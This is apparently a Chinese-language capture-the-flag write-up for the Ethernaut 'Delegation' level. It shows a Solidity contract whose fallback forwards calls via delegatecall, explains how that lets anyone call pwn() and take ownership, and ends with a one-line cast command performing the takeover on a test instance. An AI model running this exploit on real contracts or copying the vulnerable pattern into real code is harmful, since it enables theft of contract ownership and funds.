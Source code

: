 #   Level 6 Delegation
實例地址：`0xAAA35d6dfF479448f82839eE103148a8DB5De28d`

##  題目說明
這一關的目標是取得創建實例的所有權。

  可能會有用的資訊

仔細看 solidity 文件關於 delegatecall 的低階函式。它是如何怎麽運行，如何委派操作給鏈上函式函式庫，以及它對執行時期作用範圍的影響
fallback 方法(method)
方法(method)的 ID

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```

##  POC
該合約的 `fallback()` 使用 `delegatecall`，`delegatecall` 會將另一個合約儲存的內容存放至原合約相同的 `storge` 位置，利用這個原理呼叫 `Delegate` 合約的 `pwn()` 將 owner 做更換。

```bash
cast send --account=Panda 0xAAA35d6dfF479448f82839eE103148a8DB5De28d "pwn()"
```